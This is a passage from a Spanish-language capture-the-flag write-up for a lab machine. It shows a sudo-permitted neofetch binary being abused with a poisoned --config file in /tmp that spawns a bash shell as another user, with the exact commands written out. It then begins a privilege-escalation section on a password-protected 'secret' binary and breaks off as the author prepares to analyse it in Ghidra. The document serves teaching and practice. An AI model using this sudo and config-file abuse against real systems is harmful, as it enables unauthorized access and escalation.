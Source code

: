 * Ejecuto *sudo -l* para comprobar que puedo hacer y veo que puedo ejecutar como *first* un binario **neofetch**

```php 
User www-data may run the following commands on first:
    (first : first) NOPASSWD: /bin/neofetch
```
* Según la ayuda de ese programa,

```text
Neofetch is a CLI system information tool written in BASH. Neofetch
displays information about your system next to an image, your OS logo,
or any ASCII file of your choice.
```
* Intentaré explotar por aquí, 

```php
OTHER:
    --config /path/to/config    Specify a path to a custom config file
 ```
 
 * Pondré en el fichero de configuración un script que lance una shell simplemente y lo coloco en un directorio donde tenga permisos de escritura, por ejemplo en */tmp* 

```php
#!/bin/bash
bash
```
* Lanzo el programa con el fichero de configuración envenenado

```php 
sudo -u first /bin/neofetch --config /tmp/consola
```

* Obtengo acceso

```php 
first@first:/tmp$ whoami
first
```

* Capturo bandera de usuario


# Elevación de privilegios

* Ejecuto *sudo -l*

```php
User first may run the following commands on first:
    (ALL) NOPASSWD: /bin/secret
```
* Hay un binario que lo puedo ejecutar como *ALL* pero pide contraseña

```php 
first@first:~$ secret 
pass: hola
```
* Me paso el binario a mi máquina para trastearlo con GHidra
